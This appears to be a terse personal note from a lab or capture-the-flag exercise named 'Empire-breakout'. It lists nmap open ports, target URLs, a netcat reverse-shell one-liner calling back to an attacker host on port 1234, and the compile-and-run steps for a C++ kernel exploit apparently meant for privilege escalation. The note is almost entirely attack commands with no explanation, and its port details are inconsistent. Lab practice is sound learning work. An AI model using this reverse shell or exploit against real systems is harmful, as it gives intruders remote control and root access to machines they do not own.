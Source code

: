 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Empire-breakout
# 4/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


http://192.168.54.48:1898/
http://192.168.54.48:1898/robots.txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s